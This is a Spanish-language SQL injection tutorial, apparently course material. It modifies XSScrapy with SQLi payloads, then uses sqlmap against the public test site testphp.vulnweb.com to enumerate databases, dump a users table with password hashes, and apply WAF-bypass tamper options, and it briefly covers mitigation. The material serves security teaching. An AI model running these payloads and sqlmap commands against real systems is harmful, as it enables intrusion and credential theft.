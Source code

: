 ![M1](https://github.com/Grandote58/CloudSafeGuard/blob/main/Recursos/Recurso%201%402Menbrete1.png)

# **Identificación Avanzada de SQL Injection con XSScrapy y Otras Técnicas**

 **Objetivo:** Aprender a identificar vulnerabilidades **SQL Injection (SQLi)** utilizando **XSScrapy** y otras herramientas complementarias en **Google Colab y Kali Linux**.

📌 **Técnicas abordadas:**
✅ **SQL Injection clásico**
✅ **Blind SQL Injection**
✅ **Error-Based SQL Injection**
✅ **SQL Injection con WAF bypass**
✅ **Uso de herramientas avanzadas** (XSScrapy, SQLmap, Burp Suite)

📌 **Ambiente de trabajo:**

🔹 **Google Colab (Python y XSScrapy)**

🔹 **Kali Linux (SQLmap y Burp Suite)**

------

## **🔹 Módulo 1: Instalación y Configuración del Entorno**

### **📌 1.1 Configuración en Google Colab**

Google Colab es ideal para pruebas rápidas sin necesidad de instalar software localmente.

1️⃣ **Abrir un nuevo cuaderno en** Google Colab
2️⃣ **Ejecutar los siguientes comandos para instalar XSScrapy y dependencias**:

```python
!apt-get install -y git python3-pip
!pip install scrapy
!git clone https://github.com/DanMcInerney/xsscrapy.git
!cd xsscrapy && pip install -r requirements.txt
```

Esto instalará **Scrapy** y clonará XSScrapy para su uso.

------

### **📌 1.2 Instalación en Kali Linux**

Si trabajas en **Kali Linux**, usa el siguiente comando para instalar las herramientas necesarias:

```python
sudo apt update && sudo apt install -y sqlmap burpsuite
```

✅ **SQLmap**: Herramienta automatizada para SQL Injection.

✅ **Burp Suite**: Proxy de análisis de tráfico web.

## **🔹 Módulo 2: Exploración y Análisis de SQL Injection con XSScrapy**

### **📌 2.1 Modificación de XSScrapy para detectar SQLi**

XSScrapy está diseñado para encontrar **XSS**, pero podemos modificarlo para SQL Injection.

1️⃣ Editar `xss_spider.py` con:

```python
!nano xsscrapy/xsscrapy/spiders/xss_spider.py
```

2️⃣ Agregar payloads de SQL Injection:

```python
sql_payloads = [
    "' OR '1'='1",
    "' OR '1'='1' --",
    "' OR 1=1--",
    "' OR '1'='1' /*",
    "' UNION SELECT NULL, NULL --"
]

def parse(self, response):
    for input_tag in response.xpath('//input'):
        for payload in sql_payloads:
            test_url = response.url + "?" + input_tag.attrib.get('name', 'param') + "=" + payload
            yield scrapy.Request(test_url, callback=self.check_sql_injection)

def check_sql_injection(self, response):
    if "error" in response.text.lower() or "sql syntax" in response.text.lower():
        self.log(f"[!] SQL Injection detected: {response.url}")
```

Esto modificará XSScrapy para probar **SQLi en formularios y parámetros de URLs**.

### **📌 2.2 Escaneo con XSScrapy en un sitio vulnerable**

Ejecutamos XSScrapy en un sitio de prueba:

```python
!cd xsscrapy && scrapy crawl xss_spider -a domain="http://testphp.vulnweb.com/"
```

Si detecta vulnerabilidades, mostrará:

```python
[!] SQL Injection detected: http://testphp.vulnweb.com/listproducts.php?cat=' OR '1'='1
```

✅ **Esto confirma que el sitio es vulnerable a SQL Injection.**

## **🔹 Módulo 3: SQL Injection Avanzado con SQLmap en Kali Linux**

**SQLmap** es una herramienta potente que automatiza ataques de SQL Injection.

### **📌 3.1 Prueba de SQL Injection con SQLmap**

Ejecutamos SQLmap contra un sitio vulnerable:

```python
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs
```

✅ **Explicación:**

🔹 `-u` 👉 Define la URL objetivo.
🔹 `--dbs` 👉 Enumera las bases de datos.

Si el sitio es vulnerable, mostrará:

```less
available databases:
[*] acuart
[*] information_schema
```

Esto indica que la base de datos **"acuart"** está expuesta.

### **📌 3.2 Extracción de Tablas y Columnas**

Una vez identificada la base de datos, listamos las tablas:

```sql
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart --tables
```

Ejemplo de salida:

```less
available tables:
[*] users
[*] products
[*] orders
```

✅ **Podemos ver que hay una tabla `users` que podría contener credenciales.**

Listamos las columnas de la tabla `users`:

```sql
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users --columns
```

Ejemplo de salida:

```less
Database: acuart
Table: users
Columns:
[*] id
[*] username
[*] password
```

------

### **📌 3.3 Extracción de Datos Sensibles**

Ahora extraemos credenciales:

```less
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users -C username,password --dump
```

Ejemplo de salida:

```less
Database: acuart
Table: users
username | password
-------------------
admin    | 5f4dcc3b5aa765d61d8327deb882cf99
```

✅ **Esto indica que hemos extraído credenciales hashadas.**

Podemos usar herramientas como **hashcat** o sitios como **crackstation.net** para descifrar contraseñas.

------

## **🔹 Módulo 4: Bypassing Firewalls y Protección**

Algunos sitios usan **WAF (Web Application Firewall)** para evitar ataques. Podemos intentar evadirlos con técnicas avanzadas en SQLmap:

🔹 **Codificación de payloads**

```sql
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --tamper=space2comment --dbs
```

✅ Usa técnicas de ofuscación para evadir WAFs.

🔹 **Inyección por tiempo (Blind SQL Injection)**

```sql
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --time-sec=5 --dbs
```

✅ Útil cuando el sitio no devuelve errores visibles.

🔹 **Ataques manuales con Burp Suite**

1️⃣ Capturar la petición con **Burp Suite**.

2️⃣ Modificar parámetros en el **Repeater**.

3️⃣ Analizar respuestas del servidor.

## **🔹 Módulo 5: Mitigación de SQL Injection**

✅ **Usar consultas preparadas**

En **Python + MySQL**:

```less
cursor.execute("SELECT * FROM users WHERE username = %s AND password = %s", (user, password))
```

✅ **Validar entrada de usuarios**

✅ **Usar Web Application Firewalls (WAF)**

✅ **Principio de mínimo privilegio en bases de datos**



![M2](https://github.com/Grandote58/CloudSafeGuard/blob/main/Recursos/Recurso%203%402Menbrete2.png)